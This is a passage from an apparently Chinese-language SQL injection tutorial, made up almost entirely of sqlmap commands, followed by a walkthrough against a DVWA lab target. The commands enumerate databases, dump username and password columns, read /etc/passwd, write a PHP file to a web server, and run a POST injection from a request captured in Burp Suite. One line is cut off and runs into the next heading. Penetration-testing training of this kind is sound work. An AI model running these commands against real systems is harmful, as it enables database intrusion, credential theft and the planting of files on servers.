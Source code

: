 ```shell
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```

确定要注入的URL，有时需要获取访问该网站所需的cookie。

### get数据注入

- 查询所有的数据库名

  ```shell
  sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' --dbs
  ```

- 查询指定数据库的所有表名信息

  ```shell
  sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa --table
  ```

- 查询指定表名下的所有列名信息

  ```shell
  sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users --column
  ```

- 查询指定数据

  ```shell
  sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users -C user,password --dump
  ```

### post数据注入

使用 SQLMap 自动完成 POST 注入，需要把正常 POST 包的内容复制到一个 txt 文档，再调用文档来进行注入。

先使用 Burpsuite 拦截正常 POST 包，右键 - 选择 Copy to file 复制到 /root/post.txt

<img src="https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/15618182311836.jpg" alt="img" style="zoom: 33%;" />

然后关闭 Burpsuite 的代理功能，再使用命令 `sqlmap -r /root/post.txt --dbs`，来查询数据库名称。
